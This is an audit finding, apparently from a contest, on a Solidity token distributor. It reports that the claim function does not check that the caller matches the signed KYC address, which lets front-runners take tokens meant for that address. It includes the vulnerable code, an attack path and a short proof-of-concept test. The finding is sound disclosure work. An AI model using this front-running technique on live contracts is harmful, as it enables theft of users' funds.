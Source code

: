 Melted Carrot Swan

High

# Anyone can claim kycAddress tokens in `VVVVCTokenDistributor`

### Summary

There is no verification that msg.sender == kycAddress during the execution of the [`VVVVVVCTokenDistributor::claim`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106) function.
```solidity
function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }

        if (_params.projectTokenProxyWallets.length != _params.tokenAmountsToClaim.length) {
            revert ArrayLengthMismatch();
        }

        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }

        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }

        // update nonce
        nonces[_params.kycAddress] = _params.nonce;

        // define token to transfer
        IERC20 projectToken = IERC20(_params.projectTokenAddress);

        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender,
                _params.tokenAmountsToClaim[i]
            );
        }

        emit VCClaim(
            _params.kycAddress,
            _params.projectTokenAddress,
            _params.projectTokenProxyWallets,
            _params.tokenAmountsToClaim,
            _params.nonce
        );
    }
function _isSignatureValid(ClaimParams memory _params) private view returns (bool) {
        bytes32 digest = keccak256(
            abi.encodePacked(
                "\x19\x01",
                DOMAIN_SEPARATOR,
                keccak256(
                    abi.encode(
                        CLAIM_TYPEHASH,
                        _params.kycAddress,
                        _params.projectTokenAddress,
                        _params.projectTokenProxyWallets,
                        _params.tokenAmountsToClaim,
                        _params.nonce,
                        _params.deadline
                    )
                )
            )
        );

        address recoveredAddress = ECDSA.recover(digest, _params.signature);

        bool isSigner = recoveredAddress == signer;
        bool isExpired = block.timestamp > _params.deadline;
        return isSigner && !isExpired;
    }
```

Thus, the signature is used on the principle of whoever used it first gets all the tokens, even though the signature is explicitly created at kycAddress.

Thus, using frontrun, or simply recognising the signature in another way - anyone can use it before kycAddress and take the tokens that are intended for him.

### Root Cause

- No check that msg.sender == kycAddress
- Tokens transfered to msg.sender

### Internal pre-conditions

_No response_

### External pre-conditions

Anyone, who 

### Attack Path

Anyone who finds out the signature by any means (the most obvious is frontrun) and executes the transaction before kycAddress - will take the tokens that are intended for kycAddress.

### Impact

Severity: High - broken protocol behaviour and losing funds

### PoC

paste this test to VVVVCTokenDistributorUnitTests
```solidity
function testAnyoneClaim() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        claimAsUser(sampleUser, claimParams);
        assertTrue(ProjectTokenInstance.balanceOf(sampleUser) == claimAmount);
    }
```

### Mitigation

Add check that msg.sender == kycAddress